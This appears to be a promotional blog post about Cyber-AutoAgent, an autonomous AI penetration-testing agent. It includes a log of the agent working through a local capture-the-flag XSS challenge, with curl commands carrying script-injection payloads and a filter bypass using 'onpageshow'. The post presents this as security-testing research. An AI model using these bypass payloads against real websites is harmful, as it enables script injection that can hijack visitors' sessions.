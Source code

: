 # Cyber-AutoAgent: Where Autonomous AI Meets Real-World Penetration Testing

The cybersecurity landscape evolves at breakneck speed. While automated vulnerability scanners flood security teams with false positives, and manual penetration testing remains prohibitively expensive for continuous assessment, a new paradigm emerges: autonomous AI agents that think, adapt, and execute like seasoned security professionals.

Enter **Cyber-AutoAgent**—an open-source solution that demonstrates how advanced agentic AI concepts transform security testing from static automation into dynamic, intelligent assessment.

## Beyond Simple Automation: The Agentic Approach

Traditional security tools follow predefined scripts. Run nmap, parse output, run Nikto, generate report. Cyber-AutoAgent operates fundamentally differently through three core innovations:

### 1. Dynamic Plan Decomposition
The agent receives high-level objectives like "Execute XSS with the string 'XSS'" and autonomously decomposes them into actionable steps. Using AWS Bedrock's Claude models, it reasons about the target, formulates hypotheses, and adjusts strategies based on discovered evidence.

Here's a real example from an XSS assessment where the agent systematically discovers and bypasses filters:

```
# Initial test reveals single quote filtering
Step 5/30: shell
↳ Running: curl -s -X POST http://localhost:32768/xss25 -d "solution=alert('XSS')"
Response: Sorry you can't use: '''

# Agent adapts, tries different vectors
Step 8/30: shell
↳ Running: curl -s -X POST http://localhost:32768/xss25 -d 'solution=" onmouseover="alert(\"XSS\")"'
Response: Sorry you can't use: 'onmouseover'

# Continues testing until finding unfiltered event handler
Step 20/30: shell
↳ Running: curl -s -X POST http://localhost:32768/xss25 -d 'solution="><body onpageshow=alert(`XSS`)>'
Response: Congratulations! FLAG{2c0b9d5db6f05ff530d3cd19163857e5991d98894184df155e78986bc9940e98}
```

The agent tested 20 different approaches, learning from each filtered attempt until discovering the successful bypass using `onpageshow` with backticks.

### 2. Meta-Tool Creation and Orchestration
When existing tools prove insufficient, Cyber-AutoAgent creates custom tools on-the-fly. This meta-tooling capability sets it apart from rigid automation frameworks:

```python
@tool
def advanced_sql_extractor(target_url: str, vulnerable_param: str):
    """Custom tool created by agent for complex SQL extraction"""
    # Agent-generated code for specific vulnerability exploitation
    # Combines multiple techniques discovered during assessment
```
